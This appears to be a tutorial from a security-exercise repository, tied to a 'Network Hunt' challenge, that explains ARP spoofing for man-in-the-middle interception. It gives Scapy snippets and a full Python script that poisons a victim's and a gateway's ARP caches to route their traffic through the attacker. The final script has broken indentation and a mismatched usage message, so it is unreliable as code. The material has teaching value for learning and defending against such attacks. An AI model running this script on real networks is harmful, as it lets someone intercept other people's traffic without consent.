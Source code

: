 # ARP Spoofing(MiTM)

The hands-on for this is while solving the "Network Hunt" challenge.

> **Messing with ARP**
> 
> ARP attacks can potentially mess your LAN configuration. Be very cautious about testing these attacks/scripts in production environment(or in any network for that matter)
>     
> Fortunately any potential mis-configuration will be corrected to orignal state in few minutes. If you do happen to mess up your LAN, take a walk, come back several minutes later, pretend that the network was still working when you left.

    
In common hub networks all traffic can be seen by all hosts whose NICs (network interface card) are in promiscuous mode, but things are a bit different on switched networks.

A switch looks at the data sent to it and tries to only forward packets to its intended recipient based on the MAC address.

Switched networks are more secure and help speed up the network by only sending packets where they need to go.

There are ways around switches though. Using a program like Arpspoof (part of the Dsniff package), we can lie to other machines on the local area network and tell them we have the IP they are looking for, thus funneling their traffic through us.

![arp-spoofing](../imgs/mitm.png)

In the above image, the attacker is telling Alan’s box that he has the IP that corresponds to Brian’s box and vice versa. By doing this the attacker receives all network traffic going between Alan and Brian. Once the attacker has ARP Spoofed his way between two nodes he can sniff the connection. By ARP Spoofing between a computer and the LAN’s gateway an attacker can see all the traffic the computer is sending out and receiving.

## Step 1 - IP forwarding

Make sure that the kernel IP forwarding is enabled, otherwise our machine will drop all traffic between the hosts we are trying to sniff, causing a denial of service.(“IP forwarding” is a synonym for “routing.” It is called “kernel IP forwarding” because it is a feature of the Linux kernel.)

```
>>> import os
>>> os.system('echo 1 > /proc/sys/net/ipv4/ip_forward')           # enable kernel IP forwarding
>>> os.system('echo 0 > /proc/sys/net/ipv4/ip_forward')           # disable kernel IP forwarding
```

More on kernel IP forwarding: [http://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding](http://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding)

## Step 2 - Gather MAC addresses

In order to create our ARP responses, we’ll need the victim and router MAC addresses. We can do this by making ARP requests and returning the result.

```
def get_mac(IP):
    ans, unans = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = IP), timeout = 2, iface = interface, inter = 0.1)
    for snd,rcv in ans:
        return rcv.sprintf(r"%Ether.src%")
```

## Step 3 - Tricking the Targets

In this step we are tricking eachmachine into thinking that the other party is our machine. ARP reply to each of the targets telling them that we are the other target, placing ourselves in between them.

```
def trick(gm, vm):
    send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst= vm))
    send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst= gm))
```

Step 4 - Un-doing the attack/ Re-ARPing

It’s not enough to trick the machines, once our attack is over, we need to re-assign the target’s addresses so they know where to send their information properly. If we don’t do this than it will be very obvious that something has happened.

```
def reARP():
    print "\n[*] Restoring Targets..."
    victimMAC = get_mac(victimIP)
    gatewayMAC = get_mac(gatewayIP)
    send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = victimMAC), count = 7)
    send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = gatewayMAC), count = 7)
        disable_ip_forwarding()
    print "[*] Shutting Down..."
    sys.exit(1)
```

## Final script

```
from scapy.all import *
import sys
import os
import time


def help_text():
    print("\nUsage:\n python hd_tcp_syn.py network_range\n")
    sys.exit()

def enable_ip_forwarding():
    print "\n[*] Enabling IP Forwarding...\n"
    os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")

def disable_ip_forwarding():
    print "[*] Disabling IP Forwarding..."
    os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")

def get_mac(IP):
    conf.verb = 0
    ans, unans = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = IP), timeout = 2, iface = interface, inter = 0.1)
    for snd,rcv in ans:
        return rcv.sprintf(r"%Ether.src%")

def reARP():

    print "\n[*] Restoring Targets..."
    victimMAC = get_mac(victimIP)
    gatewayMAC = get_mac(gatewayIP)
    send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = victimMAC), count = 7)
    send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = gatewayMAC), count = 7)
    disable_ip_forwarding()
    print "[*] Shutting Down..."
    sys.exit(1)

def trick(gm, vm):
    send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst= vm))
    send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst= gm))

def mitm():
    try:
        victimMAC = get_mac(victimIP)
    except Exception:
        disable_ip_forwarding()
        print "[!] Couldn't Find Victim MAC Address"
        print "[!] Exiting..."
    sys.exit(1)
    try:
        gatewayMAC = get_mac(gatewayIP)
    except Exception:
        disable_ip_forwarding()
        print "[!] Couldn't Find Gateway MAC Address"
    print "[!] Exiting..."
        sys.exit(1)
    print "[*] Poisoning Targets..."    
    while 1:
    try:
        trick(gatewayMAC, victimMAC)
            time.sleep(1.5)
    except KeyboardInterrupt:
        reARP()
        break

if __name__ == '__main__':
    if len(sys.argv) < 2:
        help_text()
    interface = sys.argv[1]
    victimIP = sys.argv[2]
    gatewayIP = sys.argv[3] 
    enable_ip_forwarding()
    mitm()
```